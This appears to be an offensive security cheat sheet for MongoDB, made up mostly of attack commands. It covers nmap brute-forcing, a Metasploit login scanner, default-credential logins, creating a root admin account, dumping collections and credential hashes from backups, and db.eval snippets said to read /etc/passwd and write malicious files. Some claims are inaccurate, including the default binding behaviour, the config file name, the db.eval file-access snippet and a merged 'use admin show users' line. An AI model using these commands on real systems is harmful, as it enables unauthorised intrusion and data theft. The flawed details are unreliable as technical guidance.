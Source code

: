 # MongoDB

#### 1) Run nmap 

Brute-force attack

    nmap -sV --script mongodb-brute -n -p 27017 <IP>

Enumeration

    nmap -sV --script "mongo* and default" -p 27017 <IP>

#### 2) Metasploit MongoDB Login Scanner

    use auxiliary/scanner/mongodb/mongodb_login
    set RHOSTS <target_ip>
    set RPORT 27017
    run

#### 3) Manual Interaction via PyMongo



    from pymongo import MongoClient
    client = MongoClient('host', 27017, username='username',
    password='password')
    client.server_info() # Retrieve basic server info
    admin = client.admin #If we have admin creds available
    admin_info = admin.command("serverStatus")
    
    # List databases
    cursor = client.list_databases()
    for db in cursor:
    print(db)
    print(client[db["name"]].list_collection_names())

#### 4) MongoDB commands

    show dbs # List databases
    use <db> # Switch to the desired database
    show collections # List collections in the selected database
    db.<collection>.find() # Dump the contents of a collection
    db.<collection>.count() # Get the number of records in the collection
    db.current.find({"username":"admin"}) # Search for a specific user

#### 5) MongoDB Login methods

Basic MongoDB login without specifying a database:

    mongo <HOST>

Specify both host and port:

    mongo <HOST>:<PORT>

Specify a particular database:

    mongo <HOST>:<PORT>/<DB>

Login with a username and password:

    mongo <database> -u <username> -p '<password>'

If no credentials are required, you’ll gain access to the instance. However, if
authentication is enabled, you’ll need valid credentials

#### 6) Manual Inspection

Configuration file: mongo.db

Bitnami MongoDB setup

    /opt/bitnami/mongodb/mongodb.conf

Check if authentication is not required (noauth enabled). If true, then MongoDB is running without authentication.

    grep "noauth.*true" /opt/bitnami/mongodb/mongodb.conf | grep -v "^#"

Connect to MongoDB without authentication

    mongo <TARGET_IP>:27017

#### 7) Default Admin Users

Attackers who gain access to a user-level MongoDB account can escalate their privileges by logging in as the admin user if authentication isn’t properly configured.

Identify the Admin Database

    show dbs

Switch to admin database and check if a user exists

    use admin show users

Login with default or weak credentials

    mongo admin -u admin -p 'password' --host <TARGET_IP>:27017

#### 8) Misconfigured Role-Based Access Control (RBAC)

MongoDB uses Role-Based Access Control (RBAC) to define what actions users can perform. Sometimes, roles are misconfigured, allowing users with limited roles to gain access to privileged operations.

Enumerate User Roles 

    db.runCommand({ connectionStatus: 1 })

Misconfigured privileges:

    dbAdmin
    readWrite

Sensitive database: admin

Example: Create a new admin account

    db.createUser({
    user: "newAdmin",
    pwd: "secure_password",
    roles: [ { role: "root", db: "admin" } ]
    })

#### 9) File System Access via MongoDB

MongoDB allows you to store files and binary data using the GridFS system. If the attacker gains dbOwner or dbAdmin privileges, they can exploit MongoDB to read or write files directly to the underlying system.

Privileges: 

    dbOwner
    dbAdmin

Write a file to the system

    db.eval("var file = new File('/path/to/target/file.txt', 'w'); file.write('malicious content'); file.close();")

Read files from the system

    db.eval("var file = cat('/etc/passwd'); print(file);")

#### 10) Insecure Bindings

By default, MongoDB listens on all available network interfaces, which can expose the database to the public internet. If attackers can gain access to an exposed MongoDB API, they may escalate privileges through misconfigured network settings.

Identify the Binding IP (Check if MongoDB is open to the public internet)

    db.adminCommand({getCmdLineOpts: 1}).parsed.net.bindIp

If yes, connect remotely as admin

    mongo <TARGET_IP>:27017/admin -u admin -p 'admin_password'

#### 11) Misconfigured backup systems

MongoDB databases are often backed up regularly. If these backups are exposed to unauthorized users or misconfigured, an attacker can gain access to sensitive data or credentials stored in these backups.

Access backup directories

    mongorestore --host localhost --port 27017 --db admin /path/to/backup

Extract Admin credentials from backup

    use admin
    db.system.users.find()

